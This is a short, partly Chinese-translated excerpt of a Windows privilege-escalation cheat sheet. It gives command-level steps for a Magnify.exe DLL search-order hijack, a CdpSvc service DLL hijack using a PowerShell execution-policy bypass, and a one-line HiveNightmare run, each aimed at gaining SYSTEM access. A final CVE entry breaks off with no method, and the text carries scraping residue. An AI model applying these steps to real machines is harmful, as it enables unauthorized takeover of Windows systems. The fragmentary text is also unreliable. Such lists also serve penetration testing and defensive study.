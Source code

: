 ### **Magnify.exe Dll Search Order Hijacking**

域：No

Local Admin: Yes

操作系统：Windows

类型：Hijack

方法：

-   `将有效负载 dll 作为 igdgmm64.dll 复制到可写的系统路径 %PATH%，例如 C:\python27`
-   按Win键+L
-   按回车键
-   `在显示密码框的登录屏幕上按 WinKey++(plusKey).`
-   `然后payload dll将以系统访问权限执行.`

### **CdpSvc Service**

域：No

Local Admin: Yes

操作系统：Windows

类型：Hijack

方法：

-   `使用 acltest.ps1 查找可写系统路径（例如 C:\python27）`
-   `C:\CdpSvcLPE> powershell -ep bypass “..\acltest.ps1”`
-   将 `cdpsgshims.dll`复制到 `C:\python27`
-   创建 `C:\temp` 文件夹并将 `impersonate.bin` 复制到 `C:\temp`
-   `C:\CdpSvcLPE> mkdir C:\temp`
-   `C:\CdpSvcLPE> copy impersonate.bin C:\temp`
-   重新启动（或以管理员身份停止/启动 CDPSvc）
-   `cmd 将提示 nt authority\system。`

### **HiveNightmare**

域：Yes

Local Admin: Yes

操作系统：Windows

类型： 0/1 Exploit

方法：

-   `HiveNightmare.exe 200`

CVE-2021-30655

域：No

Local Admin: Yes

操作系统：Windows
